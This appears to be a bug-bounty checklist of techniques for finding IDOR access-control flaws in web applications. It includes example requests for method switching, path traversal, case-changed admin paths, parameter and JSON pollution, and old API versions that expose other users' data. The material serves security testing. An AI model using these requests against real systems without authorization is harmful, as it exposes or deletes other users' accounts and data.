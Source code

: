 ## Base Steps:
``bash
1. Create two accounts if possible or else enumerate users first.
2. Check if the endpoint is private or public and does it contains any kind of id param.
3. Try changing the param value to some other user and see if does anything to their account.
```

### [ ] image profilie
- try if you can idor to view image of any profille

### [ ] delete acount
### [ ] infromation acount
### [ ] VIEW & DELETE & Create api_key
### [ ] allows to read any comment
### [ ] change price
### [ ] chnage the coin from dollar to eur
### [ ] Try decode the ID, if the ID encoded using md5,base64,etc
```bash
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
### [ ] change HTTP method
```bash
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```
### [ ] Try replacing parameter names
```bash
Instead of this:
GET /api/albums?album_id=<album id>

Try This:
GET /api/albums?account_id=<account id>
Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

### [ ] Path Traversal
```bash
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

### [ ] change request content-type
```bash
Content-Type: application/xml ->
Content-Type: application/json
```
### [ ] swap non-numeric with numeric id
```bash
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```
### [ ] Missing Function Level Acess Control
```bash
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```
### [ ]send wildcard instead of an id
```bash
GET /api/users/user_id ->
GET /api/users/*
```

### [ ] Never ignore encoded/hashed ID
```bash
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```

### [ ] Google Dorking/public form
```bash
search all the endpoints having ID which the search engine may have already indexed
```
### [ ] Bruteforce Hidden HTTP parameters
```bash
use tools like arjun , paramminer
```

### [ ] Bypass object level authorization Add parameter onto the endpoit if not present by defualt
```bash
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```
### [ ] HTTP Parameter POllution Give mult value for same parameter
```bash
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

### [ ] change file type
```bash
GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

### [ ] json parameter pollution
```bash
{"userid":1234,"userid":2542}
```

### [ ] Wrap the ID with an array in the body
```bash
{"userid":123} ->401
{"userid":[123]} ->200
```

### [ ] wrap the id with a json object
```bash
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```
### [ ] Test an outdata API version
```bash
GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200
```
### [ ] If the website using graphql, try to find IDOR using graphql!
```bash
GET /graphql
[...]

GET /graphql.php?query=
[...]
```

 

